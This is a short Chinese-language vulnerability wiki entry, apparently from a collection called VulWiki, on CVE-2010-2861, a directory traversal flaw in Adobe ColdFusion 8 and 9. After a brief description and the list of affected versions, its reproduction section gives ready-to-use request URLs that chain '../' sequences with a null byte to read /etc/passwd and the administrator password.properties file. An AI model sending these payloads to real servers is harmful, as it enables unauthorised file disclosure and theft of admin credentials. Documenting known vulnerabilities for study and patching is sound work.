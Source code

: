 （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞
==============================================

一、漏洞简介
------------

Adobe ColdFusion
8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

二、漏洞影响
------------

Adobe ColdFusion 8

Adobe ColdFusion 9

三、复现过程
------------

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId24.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2010-2861/
